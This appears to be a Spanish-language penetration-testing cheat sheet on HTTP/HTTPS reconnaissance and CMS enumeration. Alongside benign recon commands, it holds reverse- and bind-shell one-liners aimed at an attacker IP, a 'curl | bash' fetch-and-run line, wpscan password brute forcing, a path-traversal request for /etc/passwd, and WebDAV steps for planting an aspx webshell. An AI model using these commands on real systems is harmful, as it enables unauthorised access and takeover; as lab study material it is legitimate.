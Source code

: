# HTTP 

Tags: #Web #Puerto #Reconocimiento #Escaneo #CMS #Comandos #HTTP #HTTPS 

80 - Este puerto es el que se usa para la navegación web de forma no segura HTTP. 

## Codigos de estado 
* 200 -> OK
- 301 -> Moved Permanently (Follow Redirect)
- 401 -> Unauthorized
- 403 -> Forbidden
- 404 -> Not Found

## URL-Encode
* & = %26

Si la versión del servidor HTTP es “**Apache httpd 2.4.46 o HTTP nginx 1.18.0**“, podemos determinar que el sistema está ejecutando una distribución de Ubuntu. El número de versión “**httpd 2.4.46 o nginx 1.18.0**” se refiere a la revisión específica del paquete de SSH en esa distribución de Ubuntu. A partir de esto, podemos identificar el **codename** de la distribución de Ubuntu, que en este caso sería “**Focal**” para Ubuntu 20.04.
Todas estas búsquedas las aplicamos sobre el siguiente dominio:
-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

### Rutas tipicas
**/var/www/html** Ruta tipica de Apache o Nginx
**/opt/blog/server.js** Ruta por default de Node.js

❯ **Ctrl + u** Para ver el codigo fuente de la pagina web
❯ **Ctrl + r** Recargar la pagina web
❯ **Ctrl + Shift + c** Para inspeccionar el codigo 
❯ **Ctrl + Click-Izquierdo** Abrimos el enlace en otra pestaña


```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80

	# Mirar la jQuery
	# Servidor Web
```

```bash
❯ whatweb ❮http://IP:PORT❯             # Nos dara una breve descripcion del gestor de contenidos por un puerto especifico
```

```bash
❯ whatweb ❮http://❮IP❯ -v

	# v = Miramos las cabeceras de la pagina web, las cuales aveces nos revelan cosas
```

```bash
❯ curl ❮IP❯ | bash                     # Lo que hace Curl es obtener un index.html del servidor y despues con el bash haremos que nos interprete la data en bash
```

```bash
❯ curl -s -X GET http://❮IP❯ -I        # Miramos las cabeceras de respuesta de la pagina web 

	# I = i mayuscula
	# s = silence
```


## ReverShell y BindShell
Este comando lo ejecutamos desde la pagina web para hacer una **ReverShell** : 
1) Cuando tenemos Netcat 
2) Cuando no tenemos Netcat
```bash 
❯ nc -e /bin/bash IP-Atacante 443

❯ bash -i >& /dev/tcp/IP-Atacante/443 0>&1
```

```bash
❯ nc -nlvp 443 -e /bin/bash              # Ejecutamos desde la pagina web para ponernos en escucha y hacer una **BindShell** :
```


# HTTPS 
443 - Este puerto es también para la navegación web, pero en este caso usa el protocolo HTTPS que es seguro y utiliza el protocolo TLS por debajo.

```bash
❯ openssl s_client -connect ❮IP❯:443     # Para conectarnos al openssl e inspeccionar el certificado del puerto 443
```

```bash
❯ sslscan ❮IP❯:8443                      # Te da informacion del ssl de la maquina y si detecta alguna vulnerabilidad te la representa, podemos colocar el puerto si no es el comun 443
```


### WordPress Enumeracion 

Formas de **Enumerar**
* **Usuarios** que aparezcan en la pagina Web, podemos validarlos en el panel de autenticacion **Admin**

**/wp-login.php**    Es la ruta del panel de autenticacion 
**/wp-admin.php** Es la ruta del panel de autenticacion de admin
**/wp-json/wp/v2/users/** Reporta usuarios validos en la pagina de WordPress en formato Json
**/wp-content/plugins** Para ver si podemos hacer directory listing y ver los plugins existentes

```bash
❯ wpscan --url ❮http://IP/❯                               # Detecta vulnerabilidades en un wordPress
```

```bash
❯ wpscan --url <http://URL/> -e u,vp                      # Enumeracion 

	# u = Enumerar usuarios
	# vp = Enumerar plugins vulnerables
```

```bash
❯ wpscan --url <http://URL/> -e vp --api-token="DFFGB15GD68DG618GD81GRD"     # Enumeracion 

	# vp = Enumerar plugins vulnerables
	# api-token = Nos representa de mejor manera las vulnerabilidades porque ya tiene el accceso
```

```bash
❯ wpscan --url <http://IP/> -U <USER> -P /usr/share/wordlists/rockyou.txt # Fuerza bruta

	# P = Ruta del diccionario 
	# U = Usuario valido
```

```bash
❯ curl -s -X GET "http://IP/" | grep -oP 'plugins/\k[^/]+' | sort -u # Filtramos por plugins en la paggina web y ver si alguno es vulnerable, los podriamos buscar en Searchsploit

	# sort u = Quitar los resultados repetidos y dejar los 'unicos'
	# s = Modo silencioso 
```

**/xmlrpc.php** Si esta expuesto, podemos enumerar credenciales validas y solo acepta peticiones por **POST** y que este estructurada en **XML**
* Debemos de listar los metodos y lo haremos con el codigo del archivo y ver si existe el siguiente **getUsersBlogs** y despues aplicar fuerza bruta
* [Xmlrpc-Abuse](https://nitesculucian.github.io/2019/07/01/exploiting-the-xmlrpc-php-on-all-wordpress-versions/)
```bash
❯ curl -s -X POST "http://IP/xmlrpc.php" -d@file.xml

	# d@ = Indicamos el archivo que usaremos y es que esta abajo 
```

```bash
❯ nano file.xml

	<?xml version="1.0" encoding="utf-8"?> 
	<methodCall> 
	<methodName>system.listMethods</methodName> 
	<params></params> 
	</methodCall>
```


### Joomla Enumeracion 

Esta herramienta ademas de enumerar un servidor Joomla, nos crea un reporte de las vulnerabilidades que encontro.
**/administrator** Es la ruta del panel de autenticacion de admin

```bash 
❯ perl joomscan.pl -u http://IP/
```

### Drupal Enumeracion 

Esta herramienta ademas de enumerar un servidor Drupal

```bash 
❯  droopescan scan drupal --url https://IP/
```

### Magento Enumeracion 

Esta herramienta ademas de enumerar un servidor Magento
**/administration/admin/index** Es la ruta del panel de autenticacion de admin

```bash 
❯  php magescan.phar scan:all https://IP/
```







- **cat wp-config.php | less** Este archivo suele disponer de credenciales de acceso a la base de datos, file que se encuentra dentro de la maquina victimas y lo miramos en formato de pagina
Tmabien podemos usar **wpseku github security scanner**  o **wordpressscan github**, pero la 'mejor' es wpseku 
- Dentro de un WP podemos editar ese template y colocar un comando. Appearance ->Editor -> 404 Template

- /usr/share/davtest/backdoors/**aspx_cmd.aspx**   Ejecutable que al momento de ejecutarse en una pagina Web, nos dara una WebShell

- Comando -> **curl http://< IP> -v** Haremos que nos ejecute un curl para poder ver la cabeceras de la pagina solicitada y su data


- Comando -> **curl -s -X GET http://< IP>/?p=404** Apuntas a una ruta 404 y haces la peticion
- Comando -> **curl -s -X PUT http://< IP>/file.txt -d @file.txt** Para subir un archivo a una pagina web con un comando a la url que lo indicaremos con el @, este archivo debe tener una extencion especifica y permitida por el webdav. El example.txt en la url es el que debe de tener una extencion permitida.
En este caso para ver mejor el contenido de arriba por Burpsuite, aplicamos el siguiente comando
- Comando -> **curl -s -X POST http://< IP>/fielRead.php -d 'file=./.list/....//....//....//....//etc/passwd'** Miramos la resuesta por POST de la pagina web, y a nivel de (d=data) le pasamos eso 
	- fileRead.php -> lo buscamos en el BurpSuite en la cabecera de POST
- Comando -> **curl -s -X MOVE -H “Destination:http://< URL>/cmd.aspx” http://< URL>/cmd.txt** Moveremos el archivo que subimos con extension .txt ya que no puede ser interpretado y le aplicaremos un renombramiento colocandole su extrension .aspx y lo haremos con la cabecera destination. Esto no dara una terminal en la web. (s=silence)

